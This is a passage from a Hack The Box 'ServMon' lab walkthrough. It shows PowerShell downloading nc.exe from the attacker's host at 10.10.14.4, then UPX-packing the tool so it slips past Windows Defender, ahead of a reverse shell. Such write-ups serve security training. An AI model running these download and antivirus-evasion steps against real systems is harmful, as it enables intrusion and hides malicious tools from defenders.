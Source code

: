 ![](images/8.png)

> Download `nc.exe` and `shell.bat` to c:\temp from attacking machine

Next step, I sent file `nc.exe` to Windows machine, but this file cannot execute and will be delete after downloading. An anti-virus have been installed.

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/servmon)

```
nadine@SERVMON C:\Users\Nadine>cd c:\temp
nadine@SERVMON c:\Temp>powershell wget 10.10.14.4/nc.exe -outfile nc.exe
nadine@SERVMON c:\Temp>nc.exe
The system cannot execute the specified program.
```

### Simple Bypass Defender

Simple packed file `nc.exe` with UPX.

```
┌──(Hades㉿10.10.14.4)-[5.4:36.9]~/walkthrough/hackthebox/servmon
└─$ upx -9 nc.exe
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     59392 ->     29696   50.00%    win32/pe     nc.exe                        

Packed 1 file.
```

Download file `nc.exe` again and try to execute it. Now, I can run `nc.exe` to create reverse shell later.
